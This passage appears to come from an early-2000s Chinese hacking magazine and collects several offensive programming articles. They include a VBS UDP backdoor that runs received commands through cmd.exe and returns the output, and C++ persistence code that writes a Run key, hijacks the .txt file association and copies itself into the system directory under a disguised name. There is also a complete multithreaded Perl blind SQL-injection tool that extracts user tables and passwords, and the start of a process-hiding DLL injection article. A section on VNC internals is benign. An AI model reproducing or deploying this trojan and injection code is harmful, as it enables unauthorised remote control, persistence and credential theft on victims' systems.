        ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
    }
    break;
case 3: // 关闭计算机
    if (dwVersion < 0x80000000)
    {
        OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
        LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
        tkp.PrivilegeCount = 1;
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
        ExitWindowsEx(EWX_SHUTDOWN | EWX_FORCE, 0);
    }
    else
    {
        ExitWindowsEx(EWX_SHUTDOWN | EWX_FORCE, 0);
    }
    break;
default:
    cout << "Please input a valid value(1-3) or exit for 0\n";
    break;
}
```

```cpp
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);

...（继续：case 2 / case 3 的分支与权限设置、重启和关机逻辑）
```

Reboot 程序的运行结果如图 2 所示。


图 2

## KillProcess 的实现

这个程序中，首先要使用 `CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0)` 来获得快照句柄，然后定义一个 `PROCESSENTRY32` 结构体类型的变量 `pe32` 来存放进程的信息。在使用 `pe32` 之前，一定要对 `pe32.dwSize` 赋个初值为 `sizeof(PROCESSENTRY32)`，然后才能够使用。接下来可以调用 `Process32First(hProcessSnap,&pe32)` 和 `Process32Next(hProcessSnap,&pe32)` 在循环中列出所有的进程信息。`Main()` 函数的源代码如下：

```cpp
DWORD dProcessId;
HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (hProcessSnap == (HANDLE)-1)
    exit(1);

PROCESSENTRY32 pe32 = {0};
pe32.dwSize = sizeof(PROCESSENTRY32);

if (Process32First(hProcessSnap, &pe32)) {
    do {
        cout << "cntThreads:" << pe32.cntThreads
             << " cntUsage:" << pe32.cntUsage
             << " dwFlags:" << pe32.dwFlags
             << " dwSize:" << pe32.dwSize
             << " pcPriClassBase:" << pe32.pcPriClassBase
             << " szExeFile:" << pe32.szExeFile
             << " th32DefaultHeapID:" << pe32.th32DefaultHeapID
             << " th32ModuleID:" << pe32.th32ModuleID
             << " th32ParentProcessID:" << pe32.th32ParentProcessID << "\n"
             << " th32ProcessID " << pe32.th32ProcessID << endl;
    } while (Process32Next(hProcessSnap, &pe32));
}
```

在接下来的程序中，我们可以输入要结束进程的 Pid，但是首先要判断一下输入的 Pid 是不是存在。如果 Pid 确实存在，那么就要调用 `OpenProcess(PROCESS_TERMINATE,FALSE,dProcessId)` 来得到进程句柄，然后调用 `TerminateProcess(hProcess,0)` 结束指定句柄的进程。

```cpp
// 根据输入的 ProcessId 结束进程
cout << "Please Input the ProcessId that you want to terminate(Quit for -1):" << endl;
cin >> dProcessId;
bool bExitFlags = false;
```

```cpp
while (dProcessId != -1) {
    if (Process32First(hProcessSnap, &pe32)) {
        do {
            if (pe32.th32ProcessID == dProcessId)
                bExitFlags = true;
        } while (Process32Next(hProcessSnap, &pe32));
    }

    if (!bExitFlags) {
        cout << "the ProcessID not exists, please retry!" << endl;
        cout << "Please Input the ProcessId that you want to terminate(Quit for -1):" << endl;
        cin >> dProcessId;
        continue;
    }

    HANDLE hProcess = OpenProcess(PROCESS_TERMINATE, FALSE, dProcessId);
    TerminateProcess(hProcess, 0);
    cout << "Please Input the ProcessId that you want to terminate(Quit for -1):" << endl;
    cin >> dProcessId;
}

if (hProcessSnap != NULL)
    CloseHandle(hProcessSnap);
cout << "Thank you for using our software. Goodbye!" << endl;
exit(0);
```

KillProcess 程序的执行结果如图 3 所示。


图 3

写到这里，我的程序已经说完了，相信这些代码会对朋友们有所帮助的。

## VBS+MSWinsock

### 打造天巧 UDP 后门


文／图 Attrib

大概在一年前，VBS 脚本病毒又掀起一阵热潮，一大群 VBS 病毒在互联网上盛行……如果它也能进行端口连接那就神奇了。从此之后，我就努力去找有关 VBS 的网络类资料……终于有了一点进展。

现在分析一下 VBS 的运作原理吧。VBS 的全称是“Visual Basic Scripts”，由于 VBS 是由 Visual Basic 分离出来的一种面向对象的脚本语言……可通过 `CreateObject("ObjectName")` 来创建引用。

用 VB 写网络程序大致有两种：一是调用 Windows API 函数，二是用 VB 自带的 Winsock 控件（MSWinsock.ocx）……通过设置控件属性并调用其方法即可连接远程主机并交换数据。

Winsock 控件用法在 VBS 中与 VB 大体相同，但 ActiveX 控件需要先创建对象。新建文本文件并写入示例代码。

```vb
Set Sock=CreateObject("MSWinsock.Winsock")
Sock.AboutBox
```

保存为 `.vbs` 运行它，就可以看到注册在系统中的 WinSock 控件相关信息，如图 1 所示。


既然对象创建成功了，下面讲如何在 VBS 中设置 WinSock 参数。协议通过 `Protocol` 属性设置：`0` 为 TCP，`1` 为 UDP。

我先介绍一下有关 WinSock 控件引用的基本方法和事件吧：

- `LocalHostName`  // 取得本地主机名
- `LocalIP`  // 取得本地主机 IP
- `SocketHandle`  // 取得创建 SOCK 的句柄
- `RemotePort`  // 设置或取得远程端口
- `LocalPort`  // 设置或取得本地端口
- `State`  // 返回创建 sock 的状态  
  `0`: 关闭  `1`: 打开  `2`: 侦听  `3`: 连接挂起  `4`: 识别主机  
  `5`: 已识别主机  `6`: 正在连接  `7`: 已连接  `8`: 错误关闭中  `9`: 错误
- `BytesReceived`  // 缓冲区数据字节数
- `Connect(RemoteHost, RemotePort)` // 连接远程主机
- `Listen` // 侦听
- `SendData/GetData` // 发送/接收数据
- `Close` // 关闭对象
- `Bind(LocalPort, LocalIP)` // 绑定本地端口

基本的东西我讲完了，下面测试一下远程主机会话吧（UDP）。下面是一个 VBS 文件，大家可以试试，代码如下：

```vb
dim revdata
dim sendata

' // 创建 Winsock 对象
set sock=createobject("MSWinsock.Winsock")

' // 使用 UDP 协议
' // 建立连接
sock.Protocol=1
sock.Connect "127.0.0.1",1234

' // 定义要发送的数据
sendata="Hello!!!"&chr(13)

' // 发送我们要发的数据
sock.senddata sendata

do
  ' // 如果有数据回应就显示它
  if sock.BytesReceived>0 then
    sock.getdata revdata,vbString
    sendata=inputbox(revdata,"ReceivedData","请输入你要发的信息:")
    sock.senddata sendata & chr(13)
    ' // 当收到含有 exit 字串时结束 VBS 进程
    if instr(revdata,"exit") then exit do
  else
  end if
loop

' // 关闭网络连接
sock.close
```

然后用 `nc -u -l -p 1234` 监听本地 UDP 端口 1234，再运行刚编写的 VBS 文件。看！我的 NC 有反应了，如图 2 所示。


图 3 里面的“Microsoft (r) Windows Based Script Host”就是我们的 VBS 主进程了。在 NC 里我们还可以发信息、聊天，怎么样？一个简单的 UDP C/S 已经完成了。下面我再写一个关于它的利用吧，既然它能访问网络，当然是用它做个 VBS 木马啦！

```vb
Dim revdata
```


```vb
set sock=createobject("MSWinsock.Winsock")
set sc=createobject("WScript.Shell")
Set fso=CreateObject("Scripting.FileSystemObject")

sock.Protocol=1      ' 这个当然是 UDP 协议的标识啦
sock.bind 1234       ' 绑定本地的 UDP 端口

Do
  if sock.BytesReceived>0 then
    sock.getdata revdata,vbString
    if instr(revdata,"exit")>0 then
      exit do
    else
      on error resume next
      tempfile="C:\" & fso.GetTempName
      cmd=right(revdata,len(revdata)-4)
      cmd=left(revdata,len(revdata)-3)
      ' // 利用重定向 cmd 的输出
      call sc.Run("cmd.exe /c " & cmd & " > " & tempfile,0,True)
      Set txtd = fso.OpenTextFile(tempfile,1,false,0)
      ' // 把输出的文件拷入内存，用 SendData 发送到客户端
      sock.senddata txtd.readall & vbcrlf & vbcrlf
      txtd.close
      call fso.DeleteFile(tempfile,True)
    end if
    ' // 呵呵，下面是我的版权
    sock.senddata "--End--" & vbcrlf & "ForHelp" & vbcrlf & "Maked by Atrib" & vbcrlf & "Data:2004.7.28" & vbcrlf & vbcrlf
  end if
Loop
sock.senddata "连接已关闭!" & vbcrlf
sock.close
sock=nothing
```

到此，代码的基本架构已经完成了。要想做一个全能的木马，可以在代码里加上诸如开机自动运行等。由于 VBS 程序没有设置出错保护，可能一些错误的操作会出现，有兴趣的朋友可以自己试试。用法是先把这个 VBS 后门运行在服务端，之后就用你的 NC 连接，因为用的是 UDP 协议，NC 的命令行是“NC -u IP Port”，记得要加上那个“-u”参数啊，之后就像 WinShell 一样用就行了，下面是在我的机器里测试的截图，如图 4 所示。

至于 TCP 如何编写，道理也跟 UDP 差不多，我这里就不再多写了，大家可以自己研究下。如果有什么好的方法还可以和我一同研究。


图4


## 编程实现修改完成程序自启动

文 / RITATV

无论是病毒还是木马程序的编制，都常常会碰到如何在系统启动时自动运行自己的程序的问题，这里我将结合自己的经验来谈一谈程序的自动加载技术，顺便也说说程序的自拷贝，也就是将自身拷贝到系统目录下。通常在 Windows 系统中，程序自动启动的方法有两种，一是利用修改 Win.ini 和 System.ini 等文件的数据段的方法，本文就不详细说了；二是使用修改注册表的方法，下面来详细介绍一下。

在 Windows 2000 计算机的系统注册表中，我们通过向子目录 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 中添加新的键值，就可以让程序在系统启动的过程中自动启动。这里我们将要介绍的是如何在程序中实现这种方法。

无论对于病毒还是木马，仅仅有自动加载的功能是不够的，如果启动起来进程一旦被系统关掉，还必须通过某种方式重新启动程序，这里我要谈到的是程序的自动关联技术。可以将我们的程序与常用的程序关联，比如与文本文档关联，这样当用户每次试图打开文本文档的时候，就会将我们的程序打开。这种方法也是通过修改注册表的方法进行关联。可以修改注册表的 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的默认键值来达到关联的目的。

还有一点，也是经常采用的技术，我们的程序第一次运行的时候，最好能将自身复制到 Windows 的系统目录中，这里我们使用了 `CopyFile()` 函数。复制的过程中为了使得我们的程序更具有隐藏性，没有采用原来的名字，而是改成了一个与某些系统文件貌似的文件名称，也就是木马常常使用的伪隐藏的方法。

程序源代码用 VC++6.0 写成，读者请查看光盘“源代码”栏目，按照文章名查找即可。在重新编译本程序的时候，一定要将编译开关选择为多线程版本，否则会提示找不到 `_beginthreadex` 和 `_endthreadex`。

下面我们共同来探讨一下整个代码。

```cpp
#include <tchar.h>
#include <iostream.h>
#include <afx.h>
#ifdef MAX_PATH
#undef MAX_PATH
#define MAX_PATH 200
#endif

int main()
{
    TCHAR TempPath[MAX_PATH];
    CString temp;
    // 取Windows的系统目录，如果读者需要取Windows目录，则要使用GetWindowsDirectory()函数
    GetSystemDirectory(TempPath, MAX_PATH);
    temp = TempPath;
    temp = temp + _T("\\intranet.exe");
    int len = temp.GetLength();

    LPBYTE lpb = new BYTE[len];
    for(int i=0; i<len; i++)
    {
        lpb[i] = temp[i];
    }
    lpb[i] = 0;
}
```

```cpp
// 判断文件的拷贝成功与否...
if (!CopyFile("KillYou.exe", temp, FALSE)) {
    LPVOID lpMsgBuf;
    FormatMessage(
        FORMAT_MESSAGE_ALLOCATE_BUFFER |
        FORMAT_MESSAGE_FROM_SYSTEM |
        FORMAT_MESSAGE_IGNORE_INSERTS,
        NULL,
        GetLastError(),
        MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT),
        (LPTSTR)&lpMsgBuf,
        0,
        NULL
    );
    MessageBox(NULL, (LPCTSTR)lpMsgBuf, "Error", MB_OK);
    LocalFree(lpMsgBuf);
}

HKEY hKey;
LPCTSTR data_Set = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
...
```

```cpp
// 回写目标句柄，然后使用这个句柄...
RegOpenKeyEx(HKEY_LOCAL_MACHINE, data_Set, 0, KEY_WRITE, &hKey);
RegSetValueEx(hKey, _T("remotecontrol"), NULL, REG_SZ, lpb, len);
RegCloseKey(hKey);

// 设定文件关联
data_Set = "txtfile\\shell\\open\\command";
RegOpenKeyEx(HKEY_CLASSES_ROOT, data_Set, 0, KEY_WRITE, &hKey);
RegSetValueEx(hKey, NULL, NULL, REG_EXPAND_SZ, lpb, len);
RegCloseKey(hKey);

MessageBox(NULL, "Thank you for using this program", "HELLO", MB_OK);
delete [] lpb;
return 0;
```

写到这里，笔者的这个程序已经解析完了。这个程序你可以运行一下看看……如果你感到它很烦的话，可以按照程序中提供的注册表路径修改回去，并记得在系统目录下删除对应文件（Intranet.exe）。

| 项目 | 内容 |
|---|---|
| 适合读者 | Java 程序员 |
| 前置知识 | Java 基本语法 |
| 难度等级 | 中 |

## 透析VNC编程

文/图 风之扬

VNC 是由剑桥大学的 AT&T Laboratories 小组开发的一个远程桌面访问和操作工具，特别适合于跨平台的远程访问。其功能实现过程是：客户端连接 VNC 服务器，键盘和鼠标动作发送到服务器，再将桌面帧缓冲内容传回客户端显示。本文将通过研究其相关代码进一步了解其实现。

远程应用场景中，VNC 常被采用的重要原因之一是“多路复用”：即使没有客户端正在观看，或有多个客户端同时观看，也不会影响图形程序继续运行。同时 VNC 具备较强可移植性，可在多种硬件和操作系统上实现。

### VNC简介及可编程性

- 1. 可编程性探讨

VNC 是一个典型的 C/S（Client/Server）模式软件。要使 Server 正常工作，被控主机系统与 TCP/IP 协议都需正常，并具备可访问 IP 地址。典型过程是复制整个图形控制台帧缓冲，再把来自客户端的控制输入返回系统。

例如把运行在 Linux 上的图形应用迁移到 Windows 桌面或 Web 场景，可将图形输出反馈给 Linux 主机上的 VNC 服务器，再借助 Windows 或 Web 端 VNC 客户端远程查看和操作，从而实现跨平台应用访问。源代码级进行移植需要耗费几周时间的工作，现在仅用一个下午就可以完成。

### 2、安装及代码获得

首先要到 http://www.realvnc.com 下载相关的软件和代码，演示代码可以到 http://cvs.sourceforge.net/viewcvs.py/vncj/vncj/src/vncjdemo/ 下载。

在 Windows 环境下安装 VNC 服务器类似于在 Linux 环境下的安装，首先解压安装文件，运行 Setup 就可以实现 VNC 服务器的安装。和普通的软件一样，执行 Setup 后，所有必需的文件都会被复制到硬盘，同时也会创建一个程序组。启动 VNC Server 服务后，设置一个访问密码就可以了。

VNC Viewer 是一个很小的执行文件，可以把它拷贝到软盘上随身携带。UNIX 下的 VNC Viewer 通常会需要 X-Server 的支持，也有在 MicroWindows/Photon 等 GUI 环境下的 VNC Viewer，可以根据自己的运行环境去选择合适的客户端。在启动客户端后，只需要输入想远程控制的机器的 IP 地址，在 VNC Viewer 连接上远端的机器后，输入访问密码，对方机器的桌面就出现在屏幕上了。比较典型的有 Windows/MacOS 桌面、X-Window 的界面、XFree86 的窗口管理器 TWM 等。

VNC 还可以工作在“被动联结方式”，这是一个非常有用的功能。在需要连接到一台在防火墙后面的机器的时候，可以把 VNC Viewer 开启进入 Listen 模式，让 VNC Server 按普通模式相反的方向去连接 VNC Viewer，就可以绕过这一障碍。和普通的方式一样，可以非常方便地控制远端的机器。

## VNC控制器编程初探

现在，我们已经知道用户能够利用 VNC 来分割计算并通过不同的机器来显示，并且开发者能够使用同一技术将图形结果显示给终端用户。尤其值得一提的是，在原来代码的基础上，我们还可以编写查看器。本文将以 Java 为例，编写环境为 Windows 2000/XP，编程工具为 JBuilder9、JCreator Pro。

### 1. 用VNC实现远程控制

Vncj 参考地址 http://sourceforge.net/projects/vncj。在 Java 中设计远程控制应用程序有许多优势。首先，Java 语言的跨平台特点当之无愧，从而可以在任何服务器上运行应用程序。其次，Java 在远程控制方面有一个强大的开发平台。比如通过 Swing 工具包创建一个视窗界面再立即远程输出它，通过 2D 图形库在一个内存缓冲中对终端工作。

“站在巨人的肩膀上，我们可以看得更远”。在前人开发的基础上，本文将介绍一个自由的、百分之百的 Java 库 VNCj。通过它，我们可以创建远程控制的 Swing、AWT（抽象窗口工具包）和在 Java 中能够被任何访问的应用程序。它提供的 6 种模式分别是 Swing 模式、AWT 模式、轻量级模式、像素模式、控制台模式、RFB 模式。

这些代码可以通过 VNCj 的 CVS 服务器看到。其中，如果你已经有一个建立好的 VNC 基础构造，VNCj 的控制台模式允许你将一个控制台仿真成一个 VNC 终端，并且你能够在一些用户中共享控制台。但是，RFB（远程帧缓冲）模式在 VNCj 内被作为一个独立库执行，是一个很好的选择，而本文所提到的 VNC Viewer 软件代码正是采用此模式。

RFB 是“Remote FrameBuffer（远程帧缓冲）”协议，是 VNC 显示的通信协议。VNC 及其依赖 RFB 的配件可以通过 Java 编写，假设你要监视远程主机上的一个操作，要做到这一点，我们可以通过编写一个运行在兼容 Java 的浏览器中运行的 Java applet 程序来实现，它仅需要一个可靠的传输（TCP/IP）和一个显示像素点的方法（要么重定向写入到一个 Framebuffer 中，要么通过一个窗口系统）。

### 2、代码分析

Java applet 程序代码：http://www.realvnc.com/dist/vnc-4.0-javasrc.zip

下载代码后，我们可以看到，压缩包里有 3 个文件夹，分别是 RDR 包、RFB 包、VNC Viewer 包。编译后，它们将直接生成 3 个包文件。其中，RDR 包主要是实现输入输出流，RFB 主要实现远程帧缓冲协议，VNC Viewer 主要实现浏览窗口的一些参数。完整的编译界面如图 1 所示，下面我们将详细地讲解。


图1

首先是典型的数据读取类的实现，比较常用的功能是确保一定的数据存储空间；设定一个变量使它自动扩展空间；对于不同的参数设置不同的读取方法；溢出异常的声明等。这在 RDR 包中比较常见，并通过一些类函数进行了实现。比较典型的例子如下：

```java
// 创建 JavaInStream.java
public JavaInStream(java.io.InputStream _jis_) {
    this(jis_defaultBufSize);
}

// readBytes() 方法：读取数据
public void readBytes(byte[] data, int offset, int length) {
    ...
}
```

```java
if (length < minBulkSize) {
    super.readBytes(data, offset, length);
    return;
}

int n = end - ptr;
if (n > length) n = length;

System.arraycopy(b, ptr, data, offset, n);
offset += n;
length -= n;
ptr += n;

while (length > 0) {
    n = read(data, offset, length);
    offset += n;
    length -= n;
    ptrOffset += n;
}
```

```java
obfuscated[i] = 0;
}
DesCipher des = new DesCipher(obfuscationKey);
des.encrypt(obfuscated,0,obfuscated,0);
}

String unobfuscatePasswd(byte[] obfuscated) {
    DesCipher des = new DesCipher(obfuscationKey);
    des.decrypt(obfuscated,0,obfuscated,0);
    int len;
    for (len = 0; len < 8; len++) {
        if (obfuscated[len] == 0) break;
    }
    char[] plain = new char[len];
    for (int i = 0; i < len; i++) {
        plain[i] = (char)obfuscated[i];
    }
    return new String(plain);
}

static byte[] obfuscationKey = {23,82,107,6,35,78,88,7};
```

其次是 RFB 包，这个包可以说就是 RFB 协议的 Java 实现。其实现过程是 VNC Client 通过架在 TCP/IP 上的 VNC 协议与 VNC Server 沟通，通过认证后，把桌面环境、输入设备和 X 资源交给 VNC Server 掌控，VNC Server 再将桌面环境通过 VNC 协议发送给 VNC Client 端，让 VNC Client 来操纵 VNC Server 桌面环境和输入设备。因此，这个包中的文件就比较多，实现的功能也比较庞杂，包括连接的实现、消息的读取和识别验证、编码和进制的常量声明、用户密码等。比较典型的验证代码如下：

VNC Viewer 包是关于窗口浏览器的一些文件实现，如对话框、桌面、F8 快捷键菜单、连接信息、连接选项、密码对话框、入口函数等，其中，VNC Viewer.java 是运行时的入口函数，也就是我们要编译整个文件夹的 Java 文件时，选择它作为主类，如图 2 所示。

```java
// VncAuth.java
package rfb;
public class VncAuth {
    // 声明一些常量
    public static final int ok = 0;
    public static final int failed = 1;
    public static final int tooMany = 2; // deprecated
    public static final int challengeSize = 16;

    // 口令认证
    public static void encryptChallenge(byte[] challenge, String passwd) {
        byte[] key = new byte[8];
        for (int i = 0; i < 8 && i < passwd.length(); i++) {
            key[i] = (byte)passwd.charAt(i);
        }
        DesCipher des = new DesCipher(key);
        for (int j = 0; j < challengeSize; j += 8)
            des.encrypt(challenge, j, challenge, j);
    }

    void obfuscatePasswd(String passwd, byte[] obfuscated) {
        for (int i = 0; i < 8; i++) {
            if (i < passwd.length())
                obfuscated[i] = (byte)passwd.charAt(i);
            else
                obfuscated[i] = 0;
        }
    }
}
```


图2

注：比较典型的 F8 按钮菜单的 Java 详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

由于 VNC 使用的通信协议 RFB（Remote Frame Buffers）是一个开放协议，因此，它很快就被很多爱好者移植到了各种不同的平台上。现在能够支持的操作系统包括所有 Windows 9x/2000/NT/XP、MacOS 8.5 以上的版本和大多数的 Unix 系统，其中也包括 Linux。所有不同平台版本的 VNC，不管是 Server 还是 Client，都支持 VNC 的通讯协议 RFB，这样就能够很容易地实现不同平台的相互操作。更值得赞赏的是，它的源代码更为我们了解软件的实现原理提供了一个更加开放的窗口。

| 项目 | 内容 |
|---|---|
| 适合读者 | Perl 程序员、脚本攻击爱好者 |
| 前置知识 | Perl 基本语法 |
| 难度等级 | 中 |

## Perl 通道

文 / 精神鸦片

### 多线程中文 SQL 注入猜解机

说道 SQL 注入机，从娃娃针对网页文章的 DvTxt.pl 到臭要饭的绝世猜解 CSC、NB 联盟的 NBSI……文章讨论了现有工具的不足（算法、字典、速度、多线程与中文支持等），并引出自己动手实现自动化猜解流程。

程序不过是将手动变为自动：先找到注入点→构造 SQL 查询语句→提交 URL→根据返回信息判断语句正确性→修正语句并重复，直至得到数据库中的正确信息。

翻译成程序语言：输入存在 SQL 注入漏洞的 URL（`$url`）→提取主机（`$host`）、路径（`$path`）、端口（`$port`）→构造并提交查询→从返回页面提取逻辑值字符（`$info`）→成功则进入下一目标值，失败则继续重复。

- 用户信息表
- 用户名字段
- 密码字段
- ID 字段
- 最小用户 ID
- 用户名长度
- 密码长度
- 用户名
- 密码

### 提取主机信息

以 DvTxt.pl 风格 URL 为例，说明通过 Perl 正则表达式拆分 URL 并抽取主机、路径、查询参数等信息。

- `http://www.he***.tk/show.asp?id=957`
- `http://www.he***.tk:1314/show.asp?id=957`
- `http://www.he***.tk/article/show.asp?id=957`

透过现象看本质，URL 规则可抽象为：`http://主机(含端口)/路径`。基于是否出现端口与层级路径，构建对应正则匹配方案。

```perl
if ($url=~/^(\w\w\w)?(.+?)\/(.+)/) {
    $host=$2;
    $path='/' . $3;
    if ($host=~/(.+):(.+)/) {
        $host=$1;
        $port=$2;
    }
}
```

解释了 `?` 的“匹配 0 或 1 次”作用，以及为何主机应使用惰性匹配 `(.+?)`，避免把路径内容错误吞并到主机中。

### IO::Socket 提交函数

在提取出 `$host`、`$path`、`$port` 后，进入 HTTP 请求提交函数编写阶段。

```perl
sub connect {
    $req = "GET $path$path1 HTTP/1.0\n"
         . "Host: $host\n"
         . "Referer: $host\n"
         . "Cookie: \n\n";

    my $connection = IO::Socket::INET->new(
        Proto    => 'tcp',
        PeerAddr => $host,
        PeerPort => $port
    ) || die "Sorry! Could not ...";

    print "connect to $host,\n";
    print $connection $req;
    my @res = <$connection>;
    close $connection;
    return @res;
}
```

Connect 子例程将返回信息存储在数组 `@res` 中。

### 猜解用户信息表

这里使用 SQL 查询语句 `0<>(select count(*) from TABLE)`。真正的破解开始了，没有什么捷径可走，顺次读取字典里存储的表名，然后一个一个地尝试，一旦成功匹配正确信息，立即退出 `while` 循环。字典有两种，一种是数组，第二是文本字典，Perl 脚本将编译为 EXE 可执行文件。为了便于今后修改添加新的表名，使用文本字典文件。

```perl
open (tabinput,'table.txt') or die "can't open file\n";
while (chomp(my $input=<tabinput>)) {
  my $sql="0<>(select%20count(*)%20from%20$input)";
  $path1 = "'%20AND%20$sql";
  &url;
  @res = &connect;
  if ("@res"=~/$info/) {
    $table_user=$input;
    print "the table of userinfo is:$table_user\n";
    last;
  }
}
close(tabinput);
```

### 猜解字段名

这里使用 SQL 查询语句 `exists (select COL_NAME from TABLE)`。这一步同猜解表名如出一辙，一旦成功获取表名，我们将兵分三路，直取用户名列（`$field_user`）、密码列（`$field_pass`）、ID 列（`$field_id`）。既然是分兵出击，就不得不使用多线程，Perl 中的多线程技术可用于并发猜解。

```perl
sub field_input {
  my $field;
  open (fileinput,'$_[0]') or die "can't open file\n";
  while (chomp(my $input=<fileinput>)) {
    my $sql="exists%20(select%20$input%20from%20$table_user)";
    $path1 = "'%20AND%20$sql";
    my @res = &connect;
    if ("@res"=~/$info/) {
      $field=$input;
      print "\t+== $field ==+";
      last;
    }
  }
  close(fileinput);
  return $field;
}
```

### Socket、Perl 多线程速成

现在 Socket 开始带大家学习 Perl 的多线程技术。核心只需要掌握两个函数即可完成速成：创建线程与等待线程结束并取回返回值。

```perl
$thread = threads->create(function, LIST);
$thread->join;

$thread1 = threads->create('field_input','field_username.txt');
$thread2 = threads->create('field_input','field_password.txt');
$thread3 = threads->create('field_input','field_id.txt');

$field_Username = $thread1->join();
$field_Password = $thread2->join();
$field_ID = $thread3->join();
```

### 猜数字的技巧

马再多也跑不过火车。回过头看猜解任务：用户 ID、用户名长度、密码长度、用户名、密码。ID 值是天然数值；长度可用 `Length($field)`；用户名和密码的 ASCII 码同样可按数值猜解。通过二分式思路可显著减少尝试次数，例如 `2^7=128`、`2^13=8192`、`2^14=16384`。

> 猜一个 8 以内的数，比如是 5，按照上面的原理，步骤如下：  
> `? < 4`、`? < 6`、`? < 5`、`? = 5`……

也就用了三次，首先从中位（4）开始，再猜剩余加/减中的一半（2、1），这类 `2^n` 种是固定的。

为了避免 CPU 的重复计算，可以根据猜解值的范围，相应预备一个数组，我准备了 4 个：

```perl
@dic1=(128,64,32,16,8,4,2,1)  # 最小用户ID
@dic2=(16,8,4,2,1)            # 用户名、密码长度
@dic3=(64,32,16,8,4,2,1)      # 英文字符
@dic4=(16384,8192,4096,2048,1024,512,256,128,64,32,16,8,4,2,1) # 中文字符
```

算法函数如下：

```perl
sub crack {
  my(@dic)=@_;
  my $sql=pop(@dic);
  my $i=0;
  my $op=1;
  my $crack=0;
  foreach my $pass(@dic){
    $i++;
    $crack += $op*$pass;
    $path1="%20AND%20$crack<($sql)";
    my @res=&connect;
    if(!("@res" =~ /$info/)){
      $op=1;
      if($i==@dic){ $crack++; }
    } else {
      $op=-1;
    }
  }
  return $crack;
}

$sql='select%20min(fieldID)%20from%20table_User';
$id=&crack(@dic1,$sql);
```

> 传递进构造的 SQL 定义语句以及相应的数组元素。Crack() 参数为数组时，需把分号去掉；若传 SQL，先定义空数组变量再以同样传递。`$sql` 会成为 `@dic` 最后一个元素，`pop(@dic)` 取出，剩下即待选择数字。

让我们一鼓作气，拿下用户名和密码长度，同时，别忘了使用多线程：

```perl
$sql='select%20len($field_Username)%20from%20table_User%20where%20fieldID=$id';
my $thread4=threads->create('crack',@dic2,$sql);
$sql='select%20len($field_Password)%20from%20table_User%20where%20fieldID=$id';
my $thread5=threads->create('crack',@dic2,$sql);
$userlen=$thread4->join();
$passlen=$thread5->join();
```

### 最后的战役：攻破字段值！

使用 SQL 查询语句：

```sql
select abs(asc(mid(fieldUsername,$locat,1))) from table_User where fieldId1a=$id
```

> 这里不讨论 MS-SQL 中的猜测。MS-SQL 有时不需猜测，只要构造条件足够好，可在对方报错时将数据内容直接显示出来。

Access 中字符的猜测，先判断 ASCII 码值是否大于零；大于零用 `@dic3` 套到 Crack 函数，小于零用 `@dic4`。英文字符可用 `Nchar($asc)` 或 `Pack('C*',$asc)`；中文字符可先转十六进制，再打包回字符。

先用 `sprintf('%X',$asc)` 完成十六进制转换（提取最后 4 位），再用 `Pack('H*',$str)` 完成打包。

```perl
sub asc {
  my $asc=$_[0];
  my $str;
  if($asc<256){
    $str=pack('C*',$asc);
  } else {
    $asc*=-1;
    $str=sprintf('%X',$asc);
    if($str=~/(.{4})$/){ $str=$1; }
    $str=pack('H*',$str);
  }
  return $str;
}
```

万事俱备，只欠东风，在此仅举猜解密码值为例，一位密码启动一个 Crack 子线程。

```perl
for (my $locat=1;$locat<=$passlen;$locat++) {
  $sql = "select%20asc(mid($field_Password,$locat,1))%20from%20$table_User%20where%20$field_Id=$id";
  $path = "'%20AND%20($sql)";
  my @res = &connect;
  if ("@res" =~ /$info/) {
    $sql = "select%20abs(asc(mid($field_Password,$locat,1)))%20from%20$table_User%20where%20$field_Id='$id'";
    $password[$locat] = threads->create('crack',@dic4,$sql);
  } else {
    $password[$locat] = threads->create('crack',@dic3,$sql);
  }
}

for (my $locat=1;$locat<=$passlen;$locat++) {
  $password[$locat] = $password[$locat]->join();
}
```

慢慢等待这些孩子们都一个个衣锦还乡吧。

### 编译 Perl 为 EXE

从 Perl2exe 的老家 http://www.indigostar.com/perl2exe.htm 下载个最新版的 Perl2Exe for Win32，目前为止是 8.40，直接解压缩，CMD 命令行进入解压后的目录。

为了避免浏览烦人的广告，我们先得注册一下这个软件：


输入我的注册码：he***he***20040709,36713；注册成功之后显示：Registered。同时，程序目录生成一个名为 Perl2exe.key 的注册表文件，可千万丢不得啊！

编译 PL：


一个多线程的、支持中文破解的 Perl 版注入器就诞生了！它大约能提高一倍的速度，也就是可以节约一半的时间。美中不足的是稳定性仍需增强。代码在手，还可以增强稳定性并扩展支持 PHP+MySQL、ASP+MSSQL 等。

> 一句话：网聚人的力量！支持开放源代码！

| 适合读者 | 程序员、入侵爱好者 |
|---|---|
| 前置知识 | 程序编写基础 |
| 难度等级 | 高 |


## 进程隐藏技术——DLL 远程线程注入程序

文／单长虹、袁宇丽

进程的隐藏通常谈得比较多，也是现在后门中普遍采用的技术。现在网络上很多程序都是使用它！但其中又是有三种技术最为关键，下面我们详细看看。

实现上，这个技术比较复杂，因为这个线程在目标进程中的寻址会出现问题，必须要进行地址的重定位。为了实现地址的重定位，需要将许多要用到的函数和变量地址保存下来，然后将这些函数和变量的名称字符串插入到目标进程中去。需要插入到目标进程中的内容包括线程的过程体、线程中要用到的所有 API 函数、所有自己定义的函数、所有的全局变量、所有的字符串。

### 进程隐藏之三足鼎立

